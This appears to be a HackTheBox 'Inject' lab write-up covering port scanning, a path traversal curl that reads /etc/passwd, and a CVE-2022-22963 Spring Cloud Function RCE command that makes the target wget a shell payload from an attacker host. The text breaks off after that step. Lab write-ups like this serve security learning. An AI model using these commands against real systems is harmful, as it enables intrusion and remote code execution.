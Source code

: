 # HackTheBox - Inject (Easy)

TARGET=10.10.11.204

## Port Scan

I was using `naabu` from @projectdiscovery because `nmap` full port was taking too much time.

```
~/go/bin/naabu -host 10.10.11.204 -p - -Pn -verbose
```

![naabu-result](https://github.com/xchopath/www.novr.one/assets/44427665/23fd7c5e-52a0-42bb-848c-54d9b78f15e5)

After scan with `naabu` now use `nmap` service scan with specific port.

```
nmap -p 22,8080 -Pn -sV -sC 10.10.11.204 -vvv
```

![nmap -sV -sC](https://github.com/xchopath/www.novr.one/assets/44427665/4de32715-7c15-4a1e-b755-f25aa6ab8839)

Discovered Ports:

| Port | Service |
|------|---------|
|  22  |   SSH   |
| 8080 |   HTTP  |

## Port 8080

After Recon all functionality, There found `show_image` is exploitable.

```
curl -s "http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd"
```

![image](https://github.com/xchopath/www.novr.one/assets/44427665/072b1ac5-c01a-4de6-b409-a339662f0cee)

## CVE-2022-22963 (Spring Cloud Function - RCE)

```
curl -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.70:8000/shell -O /tmp/shell")' --data-raw 'data' -v
```
